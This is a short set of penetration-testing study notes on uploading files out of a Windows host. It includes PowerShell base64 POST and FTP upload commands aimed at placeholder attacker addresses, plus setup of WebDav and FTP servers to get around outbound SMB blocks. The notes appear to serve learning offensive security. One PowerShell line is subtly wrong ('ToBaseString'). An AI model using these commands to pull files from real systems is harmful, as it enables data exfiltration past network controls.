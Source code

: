 	
- PowerShell and Netcat Base64 Web upload: 
	- `$b64 = [System.convert]::ToBaseString((Get-Content -path '<File_Path>' -Encoding Byte))`
	-  `Invoke-WebRequest -Uri https://Ip:port/ -Method POST -Body $b64`
	
	

# SMB Uploads
- Usually allow outbound traffic using HTTP(TCP/80) and HTTPS(TCP/443) protocols.
- Enterprises don't allow the SMB protocol (TCP/445) out of their internal network because this can open them up to potential attack.
- An alternative way cab be to run SMB over HTTP with ==WebDav==. It is an extension of HTTP.
	- A protocol in which web browser and web server use to communicate with each other.
##### -Configuring WebDav Server:

- `pip3 install wsgidav cheroot`

##### -Using the WebDav Python module: 

- `wsgidav --host=<address> --port=<port> --root=/<add> --auth=<username>/anonymous`

##### -Connecting to the WebDav Share:

 - `dir \\<address>\DavWWWRoot`
##### -Uploading Files using SMB
 
 - `copy <file_path> \\Ip\DavWWWRoot\`
 - `copy <file_path> \\Ip\<Sharename>\`

# FTP Uploads

- FTP is very similar to downloading file.
- Use PowerShell or the FTP client to complete the  operation.
- In Python module pyftpdlib , the --write option is need to be mentioned in order to allow clients to upload files.
	- ==python3 -m pyftpdlib --port 21 --write==
##### PowerShell Upload File:
- `(New-Object Net.WebClient).UploadFile('ftp://IP/Destination_directory','<File_Path>')`

[[File Transfer]]
